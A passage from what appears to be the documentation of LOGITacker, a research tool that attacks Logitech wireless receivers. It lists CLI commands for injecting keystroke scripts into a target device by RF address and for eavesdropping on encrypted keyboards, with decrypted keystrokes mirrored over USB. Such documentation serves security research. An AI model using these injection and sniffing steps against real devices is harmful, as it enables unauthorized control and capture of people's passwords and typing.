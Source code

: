 In order to inject the "calc_win7" script (which should already be loaded), two steps are needed:

1) Select the injection target (tab completition available)
2) Execute the injection

This is done with the following commands (RF address of the device is only an example):

```
LOGITacker (passive enum) $ inject target AE:C7:93:48:36 
parameter count 2
Trying to send keystrokes using address AE:C7:93:48:36
LOGITacker (passive enum) $ inject execute 
```

Once the script has finished execution, LOGITacker changes back from "injection" mode to "discover" mode.
This behavior could be changed using the following command:

```
LOGITacker (injection) $ options inject onsuccess 
onsuccess - action after successful injection
Options:
  -h, --help  :Show command help.
Subcommands:
  continue      :stay in injection mode.
  active-enum   :enter active enumeration
  passive-enum  :enter active enumeration
  discover      :enter discover mode
LOGITacker (injection) $ options inject onsuccess continue 
LOGITacker (injection) $ options store 
```

## 3.5 Eavesdropping encrypted devices (keyboards)

The process for eavesdropping follows the same steps as described for the "encrypted injection".

The link encryption key for a device has either to be added manually (could be extracted from receivers with unrestricted
version of `munifying`, once released) or to be obtained from sniffing of device pairing.

As pointed out in the previous chapter, passive-enum automatically decrypts received key reports for devices with known
key. Reading the keys from the CLI output isn't really convenient. To overcome this, LOGITacker allows forwarding of
decrypted or plain keyboard and mouse frames sniffed in passive-enum mode to its USB interface. The reports are 
translated to proper USB HID reports. Thus, the input is ultimately mirrored to the USB host which has LOGITacker 
connected.

The respective options could be enabled with the following commands:

```
LOGITacker (passive enum) $ options passive-enum pass-through-mouse on
passive-enum USB mouse pass-through: on
LOGITacker (passive enum) $ options passive-enum pass-through-keyboard on
passive-enum USB keyboard pass-through: on   
```
